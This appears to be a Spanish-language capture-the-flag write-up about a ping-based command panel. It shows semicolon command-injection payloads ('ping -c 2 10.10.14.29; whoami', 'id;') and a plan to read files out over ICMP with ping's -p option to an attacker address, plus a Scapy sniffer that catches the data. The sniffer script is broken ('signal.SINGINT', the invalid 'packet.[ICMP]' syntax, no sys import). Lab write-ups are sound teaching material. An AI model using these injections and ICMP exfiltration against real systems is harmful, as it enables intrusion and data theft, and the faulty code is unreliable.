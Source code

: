 ## Vulnerability Assessment {-}

### Panel de ejecucion de commandos {-}

Intentamos ver si tenemos connectividad.

1. Nos ponemos en escucha por traza ICMP

    ```bash
    tcpdump -i tun0 icmp
    ```

1. Lanzamos un ping

    ```bash
    ping -c 2 10.10.14.29
    ```

Vemos que recuperamos las trazas.

Intentamos otros commandos

```bash
ping -c 2 10.10.14.29;
ping -c 2 10.10.14.29; whoami
ping -c 2 10.10.14.29; id
```

Vemos que poniendo el *punto y coma* podemos ver un resultado en la web pero no vemos el resultado de id o de whoami. Pero si intentamos

```bash
id;
```

Vemos el resultado en la web. Aqui la movida seria de poder leer archivos desde una traza ICMP, mejor dicho con un ping.

### Local File Inclusion con un ping {-}

Es possible enviar datos con el comando ping con el parametro -p. Primero nos creamos un script en python que va a funccionar
como un sniffer.

```python
#!/usr/bin/python3

from scapy.all import *
import signal, time

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

#Ctrl+C
signal.signal(signal.SINGINT, def_handler)

def data_parser(packet):
    if packet.haslayer(ICMP):
        if packet.[ICMP].type == 8:
            data = packet[ICMP].load[-4:].decode("utf-8")
            print(data, flush=True, end='')

if __name__ == '__main__':
    sniff(iface='tun0', prn=data_parser)
```
